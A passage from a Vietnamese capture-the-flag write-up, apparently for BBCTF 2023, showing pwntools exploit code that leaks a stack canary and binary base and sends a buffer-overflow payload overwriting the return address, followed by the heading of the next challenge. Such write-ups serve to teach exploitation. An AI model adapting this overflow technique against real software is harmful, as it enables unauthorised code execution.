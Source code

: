 ```py

cookie = int.from_bytes((int(cookie, 16)).to_bytes(8,'big'), 'little')

print(f'Cookies: {hex(cookie)}')

base_add = add_get + 0x28 # địa chỉ stack chứa giá trị rbp

base_add = hex(int.from_bytes((base_add).to_bytes(8, 'little'), byteorder='big'))[2:]

r.sendline(base_add.encode())

r.recv().split()
base = r.recv().split()[0]

base = int.from_bytes((int(base, 16)).to_bytes(8,'big'), 'little') - 0xa21

print(f'Base: {hex(base)}')

cookie = int.from_bytes((cookie).to_bytes(8, 'little'), byteorder='little')
base = int.from_bytes((base).to_bytes(8, 'little'), byteorder='little')


w = cookie_add.encode() + b'A' * 8 + p64(cookie) + p64(base+0x8f7) * 4 

r.sendline(w)

sleep(3)

print(r.recv().split()[7])
```

:)) Xong rồi đấy.

Một số lưu ý thì thường khi gửi địa chỉ lên thì sẽ ở định dạng `big` endian nhé.

### 3: ez-pz-xor

![title](/src/2023/BBCTF2023/ez_pz_xor/00_titile_ez_pz_xor.png)

